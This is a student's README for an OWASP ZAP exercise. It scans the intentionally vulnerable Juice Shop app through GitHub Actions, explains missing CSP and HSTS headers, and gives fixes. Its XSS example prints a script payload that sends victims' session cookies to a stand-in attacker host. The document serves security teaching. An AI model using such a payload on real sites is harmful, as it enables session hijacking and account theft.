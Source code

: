 
# Day 2 OWASP ZAP: Detecting Web Vulnerabilities with GitHub Actions ( Aman Jha )

This repository contains the solution for the Day 2 exercise, "OWASP Top 10 – Overview & Use Cases". The goal of this exercise was to set up a Dynamic Application Security Testing (DAST) pipeline, scan a vulnerable web application, analyze the results, and document the findings.

This was accomplished by:
1.  Setting up and running **OWASP Juice Shop** using Docker.
2.  Creating a **GitHub Actions** CI/CD pipeline to automate the security scan.
3.  Integrating the **OWASP ZAP Baseline Scan** to run against the application.
4.  Generating a vulnerability report and analyzing two key findings from the OWASP Top 10.

---

## Setup: Running the Target Application (OWASP Juice Shop)

For this exercise, OWASP Juice Shop was used as the vulnerable target application. It was run locally as a Docker container, providing a consistent and isolated testing environment.

The following steps were used to set up the application:

1.  **Pull the Docker Image:** The latest official image was pulled from Docker Hub.
    ```bash
    docker pull bkimminich/juice-shop
    ```

2.  **Run the Docker Container:** The container was started, mapping port 3000 on the local machine to port 3000 inside the container.
    ```bash
    docker run --rm -p 3000:3000 bkimminich/juice-shop
    ```
3.  The application was then accessible for testing at `http://localhost:3000`.

---

## CI/CD Pipeline Integration

A GitHub Actions workflow was configured in `.github/workflows/dast-scan.yml`. This pipeline automates the security scan. On every push to the `main` branch, it automatically checks out the code, runs the ZAP baseline scan against a public instance of the target application, and uploads the generated HTML report as a downloadable artifact. This ensures that security testing is an integral and automated part of the development process.

---

## 1. Screenshot of ZAP Report

Here is a screenshot of the summary section from the `report_html.html` generated by the pipeline.

![ZAP Report Summary](Screenshots/image.png)

---

## 2. Short Description of 2 Detected Vulnerabilities

The following two vulnerabilities were identified from the ZAP scan report. They both represent common and critical security misconfigurations, which fall under the OWASP Top 10 category **A05:2021 – Security Misconfiguration**.

#### Vulnerability 1: Content Security Policy (CSP) Header Not Set

*   **Impact:** This is a **Medium** severity finding. Without a Content Security Policy, the application is significantly more vulnerable to Cross-Site Scripting (XSS) attacks. A CSP acts as a critical layer of defense by telling the browser which sources of content (like scripts and styles) are trusted. If an attacker injects a malicious script from an untrusted domain, a proper CSP would block it from executing, which helps protect the user's session and sensitive data from being stolen.

*   **Recommended Fix:** Implement a Content Security Policy by adding the `Content-Security-Policy` HTTP header to all responses from the server. A good starting policy is to only allow content from the application's own domain. For example: `Content-Security-Policy: default-src 'self';`.

#### Vulnerability 2: Strict-Transport-Security (HSTS) Header Not Set

*   **Impact:** This is a **Low** severity finding but has a high potential impact. The lack of an HSTS header exposes users to man-in-the-middle attacks. If a user connects to the site via an insecure link (HTTP), an attacker could intercept the connection before it is redirected to secure HTTPS. This could allow the attacker to steal sensitive information like session cookies or login credentials during that initial insecure request.

*   **Recommended Fix:** Add the `Strict-Transport-Security` header to all HTTPS responses. A recommended configuration is `Strict-Transport-Security: max-age=31536000; includeSubDomains`. This forces the browser to only communicate with the site over HTTPS for the next year, closing the window for downgrade attacks.

---

## Core Concept Questions

### What is the purpose of DAST and how does it complement other security testing methods?

Dynamic Application Security Testing (DAST) is a "black-box" security testing method that finds vulnerabilities in a running application by simulating external attacks. It complements other methods like SAST (Static Application Security Testing) by finding runtime and environment-specific issues (e.g., server misconfigurations, authentication flaws, or vulnerabilities that only appear when different services interact) that cannot be found by analyzing source code alone.

**Use Case Example:** A developer writes perfectly secure code for handling file uploads, which passes all SAST scans. However, the operations team deploys the application to a cloud server where the storage bucket is accidentally configured to be publicly readable. A DAST scan, which actively probes the live application, would discover this misconfiguration by successfully accessing an uploaded file without authentication—a critical vulnerability that SAST was completely blind to.

### Explain how XSS or SQL injection vulnerabilities can affect an application and its users.

*   **XSS (Cross-Site Scripting):** Affects users by allowing attackers to execute malicious scripts in their browsers, which can lead to session hijacking, credential theft, and keylogging. It affects the application by damaging its reputation, defacing its content, and potentially leading to the compromise of administrator accounts, giving attackers control over the entire site.
*   **SQL Injection:** Affects the application by allowing attackers to bypass authentication, read, modify, or delete all data in the database. This can lead to a complete server compromise. It affects users by causing a massive data breach of their personal and financial information (passwords, credit cards, etc.), resulting in a total loss of trust.

**Use Case Example (XSS):** An attacker posts a comment on an e-commerce product review page. The comment contains a hidden script: `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. The website fails to sanitize this input and displays the comment. Now, every legitimate user who views that product page will have their browser execute the script, unknowingly sending their session cookie to the attacker's server. The attacker can then use this cookie to take over the user's shopping session, steal their personal information, and make purchases with their saved credit card.

### Describe the steps you would take to fix the vulnerabilities detected in your ZAP scan.

1.  **Analyze and Prioritize:** Review the ZAP report to understand the vulnerabilities and prioritize them based on their risk level and potential impact. In this scan, the Medium-risk "Content Security Policy (CSP) Header Not Set" would be the top priority.
2.  **Remediate:** Implement code-level or configuration changes to fix the identified flaws. For the two vulnerabilities found, this involves adding the `Content-Security-Policy` and `Strict-Transport-Security` headers to the web server's or application's configuration.
3.  **Re-scan:** After deploying the fixes, run the ZAP scan again in the CI/CD pipeline. This is a critical step to verify that the fixes have successfully removed the vulnerabilities and have not introduced new ones.
4.  **Document:** Document the findings and the remediation steps taken for auditing, team knowledge sharing, and future reference.

**Use Case Example (Fixing HSTS):**
1.  **Analyze:** The ZAP report shows a "Strict-Transport-Security Header Not Set" warning.
2.  **Remediate:** A developer edits the web server's configuration (e.g., Nginx) and adds the line: `add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;`.
3.  **Re-scan:** The developer commits and pushes the configuration change. The GitHub Actions pipeline automatically runs the ZAP scan again. The new report shows that the HSTS warning is no longer present.
4.  **Document:** The developer closes the security ticket, linking to the successful pipeline run and the commit that fixed the issue.

### How does integrating ZAP scans into CI/CD pipelines support shift-left security practices?

Integrating ZAP scans into a CI/CD pipeline is a core practice of "shifting left" on security. It automates security testing early and often in the development lifecycle, rather than waiting until the end. This provides developers with immediate feedback on the security impact of their code changes. By catching vulnerabilities with every commit, organizations can fix issues when they are fastest, cheapest, and easiest to resolve, which dramatically reduces risk, lowers development costs, and builds a stronger, more security-conscious engineering culture.

**Use Case Example:**
*   **Without Shift-Left:** A team spends three months building a new feature. Right before launch, a manual penetration test finds a critical vulnerability. The launch is delayed for two weeks while developers scramble to fix old code they are no longer familiar with, causing stress and blowing the project budget.
*   **With Shift-Left:** A developer makes a small change and pushes it. Ten minutes later, the automated ZAP scan in their CI/CD pipeline fails, alerting them that their change accidentally introduced a potential XSS vulnerability. They immediately fix the issue in five minutes while the code is still fresh in their mind, push again, and the pipeline passes. The vulnerability is eliminated instantly at almost no cost.